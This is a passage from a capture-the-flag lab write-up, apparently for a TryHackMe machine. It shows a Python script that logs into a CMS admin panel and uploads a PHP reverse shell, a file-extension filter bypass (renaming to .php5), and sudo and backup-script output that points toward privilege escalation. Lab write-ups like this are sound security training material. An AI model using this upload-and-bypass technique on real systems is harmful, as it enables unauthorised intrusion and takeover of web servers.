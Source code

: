 ``` python

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}



with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass
```

```
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.14.158/content/attachment/revshell.php
```


I suspected the reasoning behind this may have been some kind of extension filter, so I renamed the file to `revshell.php5`

Upon checking the same directory, this time the file has been correctly uploaded. Upon execution I gained an initial reverse shell and obtained user.txt.

```sh
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```
www-data@THM-Chal:/home/itguy$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

```
